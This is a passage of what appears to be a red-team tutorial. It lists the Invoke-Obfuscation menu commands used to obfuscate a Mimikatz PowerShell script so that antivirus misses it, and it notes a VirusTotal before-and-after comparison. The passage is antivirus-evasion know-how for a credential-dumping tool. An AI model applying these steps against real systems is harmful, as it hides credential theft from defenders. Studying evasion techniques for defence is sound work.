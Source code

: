 ![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen16.png?raw=true)

Save the file and try to run it.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen17.png?raw=true)

Simple comparison between the powershell code before and after the obfuscation, this is what makes the file undetectable by the antivirus.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen18.png?raw=true)

Virus total comparison before and after the obfuscation.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen19.png?raw=true)

Summary of all the commands used.
```
# Load the Module
Import-Module ./Invoke-Obfuscation.psd1

# Run the Tool
Invoke-Obfuscation

# Set the Script Location
set ScriptPath C:\Users\Hassan\Mimikatz.ps1

# Start the Obfs
token

# Remove Comments
comment
1
back

# Change Strings
string
1
2
back

# Change Variables
variable
1
back

# Change Arguments
argument
3
back

# Change Members
member
3
back

# Change Commands
command
3
back

# Save the File
out C:\Users\Hassan\dump.ps1

# Exit the Program
```